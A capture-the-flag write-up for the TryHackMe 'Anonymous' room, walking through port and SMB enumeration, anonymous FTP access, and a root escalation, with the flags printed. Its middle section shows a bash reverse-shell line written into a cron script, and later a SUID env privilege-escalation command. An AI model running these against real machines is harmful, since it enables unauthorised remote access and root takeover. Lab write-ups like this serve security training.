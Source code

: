# Room: Anonymous

## General Info
- **Room link:** [Anonymous](https://tryhackme.com/room/anonymous)


## Description

Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

## Provided Files / Links
- [x] Target Machine IP (10.10.56.61)

## Enumeration / Recon

- Port Enumeration:
`nmap -sV 10.10.56.61 -p- -T5`

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
There are 2 smb services on port 139 and 445.

I first use enum4linux to try to get usernames: `enum4linux -U -o 10.10.56.61`

```
 ========================================( Users on 10.10.56.61 )========================================

index: 0x1 RID: 0x3eb acb: 0x00000010 Account: namelessone      Name: namelessone       Desc: 
```

I found the username `namelessone`.

I then try to get the shares on the target SMB machine, using an nmap script: `nmap -p 445 --script=smb-enum-shares.nse 10.10.56.61`.

```
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.56.61\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (anonymous server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.56.61\pics: 
|     Type: STYPE_DISKTREE
|     Comment: My SMB Share Directory for Pics
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\namelessone\pics
|     Anonymous access: READ
|     Current user access: READ
|   \\10.10.56.61\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

The share on the user's computer is called `\pics`.

I then continue my research about the smb protocols: `nmap -p 139,445 --script=smb-os-discovery,smb-protocols 10.10.56.61`.

```
Host script results:
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2:0:2
|     2:1:0
|     3:0:0
|     3:0:2
|_    3:1:1
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-05-20T08:57:49+00:00
```

I went to see the content of the /pics share (`smbclient //10.10.56.61/pics -N`). There were 2 jpg files but nothing relevant in them (I checked the content with strings and exiftool).

I then tried to access the machine through ftp and I was able to log in as anonymous.

I found a clean.sh file that was actually running on a CRON. 

I modified the script to get a reverse shell:

```
#!/bin/bash

/bin/bash -i >& /dev/tcp/MY-IP/1337 0>&1
```

I put a listener on port 1337: `nc -nlvp 1337`

And I was able to get the reverse shell.

### Target machine exploitation

I stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I get the flag in the user.txt file: **90d6f992585815ff991e68748c414740**

Then I downloaded and ran linpeas.sh in the /tmp directory.

I found this specific information in the "Files with Interesting Permissions" section:

`-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env`

I then went to https://gtfobins.github.io/gtfobins/env/ to see if I can exploit this permission. I tried exploiting this one `/usr/bin/env /bin/sh -p` and I actually got root access.

I found the root.txt file (in /root/root.txt): **4d930091c31a622a7ed10f27999af363**.
